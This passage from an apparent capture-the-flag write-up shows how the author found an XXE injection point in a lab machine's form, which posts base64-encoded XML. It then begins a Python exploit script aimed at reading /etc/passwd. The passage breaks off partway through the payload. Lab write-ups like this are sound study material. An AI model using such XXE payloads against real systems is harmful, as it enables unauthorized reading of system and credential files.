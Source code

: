 Everytime I see a submit button on a page, I always check for traffic on that page. We can view the network traffic of that page by hitting <kbd>F12</kbd> on your keyboard and navigating to the `Network` tab.

Filling in the forms with random values and submitting, we can see that this page is doing a `POST` request to `http://10.10.11.100/tracker_diRbPr00f314.php` with something that looks like `base64` encoded data on the request.

![log-submit-network](./img/log-submit-network.png)

Decoding the `base64` value, we get an XML formatted output.

![b64_decoded](./img/b64_decoded.png)

This may indicate an [XXE](https://portswigger.net/web-security/xxe) vulnerability that we can exploit.

## Exploitation

Now that we have a potential exploit, let's write a python script to automate this task. I learned about XXE from [this](https://portswigger.net/web-security/xxe) post by [Port Swigger](https://portswigger.net/) that I highly recommend to read for a deep dive into XXE injections. 

```python
#!/usr/bin/env python3

import requests
import base64

# page to do a request on
host = 'http://10.10.11.100/tracker_diRbPr00f314.php'

exploit = "file:///etc/passwd"

# always make stuff as identical as possible to avoid unwanted problems.
payload = f"""<?xml  version="1.0" encoding="ISO-8859-1"?>
```